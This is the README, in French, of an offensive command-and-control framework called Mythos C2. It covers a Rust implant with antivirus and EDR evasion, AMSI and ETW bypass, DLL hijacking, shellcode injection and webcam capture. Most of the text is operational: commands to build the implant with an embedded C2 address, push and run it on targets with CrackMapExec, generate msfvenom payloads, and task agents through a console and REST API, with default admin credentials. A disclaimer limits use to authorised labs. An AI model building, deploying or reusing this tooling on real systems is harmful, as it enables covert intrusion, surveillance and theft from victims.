

# Mythos C2 Framework

<p align="center">
  
</p>

> Framework de Command & Control pour opérations Red Team  
> Développé par SHERKO — Data Analyst / Ingénieur Cybersécurité / Orienté Red Team / Chercheur en sécurité

---

## Architecture globale

```
┌─────────────────────────────────────────────────────────────┐
│                    Opérateurs Red Team                       │
│              (Console CLI / API REST :8443)                  │
└─────────────────────────┬───────────────────────────────────┘
                          │ HTTPS + JWT
┌─────────────────────────▼───────────────────────────────────┐
│                   Team Server (Go)                           │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌──────────┐   │
│  │ Listener │  │   API    │  │   DB     │  │  Crypto  │   │
│  │  HTTPS   │  │  REST    │  │  SQLite  │  │ ECDH+AES │   │
│  └────┬─────┘  └──────────┘  └──────────┘  └──────────┘   │
└───────┼─────────────────────────────────────────────────────┘
        │ HTTPS chiffré AES-256-GCM
        │ Toutes les 60s ± jitter
┌───────▼─────────────────────────────────────────────────────┐
│                    Agent (Rust)                              │
│  ┌──────────┐  ┌──────────┐  ┌──────────┐  ┌──────────┐   │
│  │Transport │  │  Crypto  │  │Commands  │  │ Evasion  │   │
│  │ Beacon   │  │ECDH+GCM  │  │ Shell/PS │  │Anti-sand │   │
│  └──────────┘  └──────────┘  └──────────┘  └──────────┘   │
│  ┌──────────────────────────────────────────────────────┐   │
│  │                  Inject Module                        │   │
│  │  DLL Hijacking │ Process Hollowing │ Shellcode Inj.  │   │
│  └──────────────────────────────────────────────────────┘   │
└─────────────────────────────────────────────────────────────┘
```

---

## Protocole de communication

### 1. Handshake initial (ECDH)

```
Agent                                    Serveur
  │                                         │
  │── POST /api/v1/telemetry ──────────────►│
  │   { pk: base64(agent_pub_key),          │
  │     h: hostname, u: username, ... }     │
  │                                         │
  │   Serveur génère sa paire ECDH          │
  │   Dérive : shared_secret = ECDH(        │
  │     server_priv × agent_pub)            │
  │   session_key = HKDF(shared_secret)     │
  │                                         │
  │◄── { id: uuid, pk: server_pub_key } ───│
  │                                         │
  Agent dérive aussi :                      │
  session_key = HKDF(ECDH(                 │
    agent_priv × server_pub))              │
  Les deux ont le même session_key !        │
```

### 2. Beacon loop

```
Agent                                    Serveur
  │                                         │
  │── POST /api/v1/metrics ────────────────►│
  │   { id: agent_uuid,                     │
  │     d: base64(AES-GCM(beacon_data)) }  │
  │                                         │
  │◄── { d: base64(AES-GCM(tasks)) } ──────│
  │                                         │
  │   Exécuter les tâches...                │
  │                                         │
  │── POST /api/v1/analytics ──────────────►│
  │   { id: uuid,                           │
  │     d: base64(AES-GCM(result)) }       │
  │◄── 200 OK ──────────────────────────────│
```

---

## Techniques d'évasion implémentées

| Technique | Cible | Description |
|---|---|---|
| Anti-sandbox timing | Émulateurs AV | 5M ops CPU chronométrées |
| Anti-debug | x64dbg, OllyDbg | IsDebuggerPresent / timing |
| Jitter beacon | Détection par timing réseau | ±20% sur l'intervalle |
| User-Agent légitime | Proxy / NGFW | Chrome 120 réel |
| URIs banales | Détection par pattern URL | /api/v1/telemetry |
| AES-256-GCM | Inspection TLS | Corps HTTP chiffré |
| Sleep obfuscation | Scanner RAM EDR | Chiffrement mémoire pendant sleep |
| Binaire strippé | Analyse statique | Pas de symboles de debug |
| Hell's Gate | Hooks ntdll EDR | Syscalls directs via SSN dynamique |
| Halo's Gate | Hooks multi-fonctions | Résolution SSN par voisinage si hooké |
| Indirect syscall | Callstack analysis EDR | `syscall` exécuté depuis ntdll légitime |
| API hashing (DJB2) | Strings analysis | Pas de noms Nt* en clair dans le binaire |

---

## Installation & Démarrage

### Prérequis

```bash
# Go 1.22+
go version

# Rust + cargo (avec toolchain MSVC pour Windows natif)
rustup --version

# Pour la cross-compilation Windows depuis Linux
rustup target add x86_64-pc-windows-gnu
apt install gcc-mingw-w64-x86-64 -y
```

---

### 1. Compiler l'agent

#### Depuis Windows (recommandé — compilation native)

```powershell
cd mythos-c2/agent

# Définir l'URL du C2 (IP de ton Kali / team server)
$env:C2_URL = "http://192.168.X.X:8080"

# Compiler en mode release (optimisé + strippé)
cargo build --release

# Le binaire est dans :
# agent/target/release/agent.exe
```

#### Depuis Kali Linux (cross-compilation vers Windows)

```bash
cd mythos-c2/agent

# Ajouter la target Windows
rustup target add x86_64-pc-windows-gnu

# Compiler avec l'URL du C2
C2_URL="http://192.168.X.X:8080" cargo build --release --target x86_64-pc-windows-gnu

# Le binaire est dans :
# agent/target/x86_64-pc-windows-gnu/release/agent.exe
```

---

### 2. Démarrer le team server (Kali)

```bash
cd mythos-c2/server

# Démarrer avec les options par défaut
go run main.go

# Ou avec options personnalisées
go run main.go \
  --listener-host 0.0.0.0 \
  --listener-port 8080 \
  --api-host 127.0.0.1 \
  --api-port 8443 \
  --admin-pass "VotreMotDePasseSecurisé!"
```

Vérifier que ça tourne :
```bash
curl http://localhost:8443/api/ping
# → {"status":"mythos"}
```

---

### 3. Déployer l'agent (sur la cible Windows)

```bash
# Depuis la cible directement (PowerShell)
.\agent.exe

# Ou via réseau (CrackMapExec depuis Kali)
crackmapexec smb <TARGET_IP> -u user -p pass \
  --put-file ./agent.exe C:\\Windows\\Temp\\svc.exe

crackmapexec smb <TARGET_IP> -u user -p pass \
  -x "C:\\Windows\\Temp\\svc.exe"
```

---

### 4. Console Opérateur

```bash
# Depuis Kali, dans un nouveau terminal :
cd mythos-c2/server
go run cmd/console/main.go --api http://127.0.0.1:8443

# Identifiants par défaut :
# Username : admin
# Password : MythosAdmin2024!
```

#### Commandes disponibles dans la console :

```text
# Navigation
mythos > agents                   # Liste les agents connectés
mythos > use <AGENT_ID>           # Sélectionne un agent (prefix OK)
mythos > back                     # Désélectionner l'agent

# Exécution de commandes
mythos [ID] > shell whoami        # Commande shell
mythos [ID] > powershell <script> # Script PowerShell
mythos [ID] > tasks               # Voir les résultats des tâches
mythos [ID] > proclist            # Liste des processus
mythos [ID] > screenshot          # Capture d'écran

# Transfert de fichiers
mythos [ID] > upload <src> <dst>  # Uploader un fichier
mythos [ID] > download <path>     # Télécharger un fichier

# DLL Hijacking
mythos [ID] > hijack_scan         # Scanner les opportunités de DLL hijacking
mythos [ID] > hijack_deploy <dll> # Déployer une DLL malveillante (chemin local)

# Agent control
mythos [ID] > sleep <secondes>    # Modifier l'intervalle de beacon
mythos [ID] > kill                # Terminer l'agent

# Evasion & Recon
mythos [ID] > hellsgate <PID>:<B64>  # Injection shellcode via Hell's Gate
mythos [ID] > hellsgate_local <B64>  # Self-injection via Hell's Gate
mythos [ID] > webcam_snap            # Capture photo depuis la webcam
```

#### Mode "Pseudo-Interactif"

Pour une fluidité totale, basculer l'agent en mode interactif (beacon toutes les 1s) :

```text
mythos [ID] > interactive
[*] Passage en mode interactif (sleep = 1s)...

mythos-shell [ID] > whoami
corp\alice

mythos-shell [ID] > cd Desktop
Directory changed to C:\Users\alice\Desktop

mythos-shell [ID] > exit
[*] Sortie du mode interactif (rétablissement sleep = 60s)...
```

---

### 5. Module DLL Hijacking

Le module de DLL Hijacking est entièrement implémenté dans l'agent Rust (`agent/src/inject/dll_hijack.rs`).

#### Fonctionnement

1. `hijack_scan` : L'agent cherche sur la cible des applications vulnérables (qui chargent des DLL manquantes dans des répertoires accessibles en écriture).
2. `hijack_deploy <dll>` : Le C2 envoie une DLL compilée localement. L'agent la dépose au bon emplacement. Elle sera exécutée au prochain lancement de l'application cible.

#### Applications ciblées (source : hijacklibs.net)

| Application | DLL manquante |
|---|---|
| Microsoft Teams | version.dll |
| Visual Studio Code | CRYPTSP.dll |
| 7-Zip | UXTheme.dll |
| Notepad++ | UxTheme.dll |
| Wireshark | airpcap.dll |
| calc.exe (lab) | VERSION.dll |

#### Générer une DLL de test

```bash
# Depuis Kali — DLL de démonstration (ouvre calc.exe)
msfvenom -p windows/x64/exec CMD="calc.exe" -f dll -o /tmp/payload.dll

# Déployer via la console
mythos [ID] > hijack_deploy /tmp/payload.dll
```

> **Note** : Pour un déploiement furtif, une **Proxy DLL** est recommandée (elle exporte toutes les fonctions légitimes de la vraie DLL tout en exécutant le payload). Le template de Proxy DLL est disponible via `generate_proxy_dll_template()` dans le code source.

---

### 6. Module Injection & Direct Syscalls (Hell's Gate)

Le framework intègre la technique avancée **Hell's Gate** (avec fallback **Halo's Gate** et **Indirect Syscalls**) pour exécuter du shellcode en contournant totalement les hooks EDR placés en userland (dans `ntdll.dll`).

#### Exemple pratique d'injection

1. **Générer un shellcode (sur Kali)**
```bash
# Exemple : shellcode pour lancer la calculatrice, encodé en base64
msfvenom -p windows/x64/exec CMD="calc.exe" -f raw | base64 -w 0
# Copiez la sortie base64 (ex: MjQ4...=)
```

2. **Trouver un processus cible inoffensif**
```text
mythos [ID] > proclist
# Repérez un processus comme notepad.exe (ex: PID 1337)
```

3. **Exécuter l'injection silencieuse**
```text
mythos [ID] > hellsgate <PID> <CHEMIN_SHELLCODE>
[*] [Hell's Gate] Shellcode injecté avec succès dans PID 1337
    Technique: Direct syscalls (bypass hooks ntdll)
    SSN NtAllocateVirtualMemory: 0x0018
    SSN NtCreateThreadEx: 0x00C1
```
*(Le shellcode est exécuté directement dans le kernel sans déclencher les APIs surveillées !)*

---

### 7. API REST (Pour l'automatisation)

```bash
# S'authentifier
TOKEN=$(curl -s -X POST http://localhost:8443/api/operators/login \
  -H "Content-Type: application/json" \
  -d '{"username":"admin","password":"MythosAdmin2024!"}' \
  | python3 -c "import sys,json; print(json.load(sys.stdin)['token'])")

# Envoyer une tâche shell
curl -X POST \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"type":"shell","payload":"whoami /all"}' \
  http://localhost:8443/api/agents/<AGENT_ID>/task

# Scanner les opportunités DLL hijacking
curl -X POST \
  -H "Authorization: Bearer $TOKEN" \
  -H "Content-Type: application/json" \
  -d '{"type":"hijack_scan","payload":""}' \
  http://localhost:8443/api/agents/<AGENT_ID>/task
```

---

## Roadmap — Prochaines fonctionnalités

- [x] Console interactive opérateur (CLI)
- [x] Mode pseudo-interactif (shell persistant)
- [x] DLL hijacking module (scan + deploy)
- [x] Process hollowing
- [x] Shellcode injection
- [x] Direct syscalls (Hell's Gate / Halo's Gate) — bypass hooks ntdll
- [x] ETW patching (EtwEventWrite)
- [x] AMSI bypass (AmsiScanBuffer)
- [x] Reconnaissance: Webcam snap (WMF/WIC)
- [ ] Proxy DLL generator (génération automatique depuis le C2)
- [ ] DNS tunneling listener
- [ ] CDN redirectors (Cloudflare)
- [ ] Console web (React)
- [ ] Collaboration multi-opérateurs (WebSocket)
- [ ] Export rapport automatique

---

## Avertissement légal

Ce framework est développé à des fins de **recherche en sécurité offensive**
et d'**éducation**. Son utilisation est réservée à des environnements
contrôlés (labs, engagements Red Team autorisés).

Toute utilisation sur des systèmes sans autorisation explicite est illégale.

---

## Contribuer

SHERKO — Pull requests bienvenues.

Domaines où contribuer en priorité :
- Proxy DLL generator (Rust/C)
- Listener DNS tunneling (Go)
- Interface web opérateur (React)
- Techniques de sleep obfuscation Windows
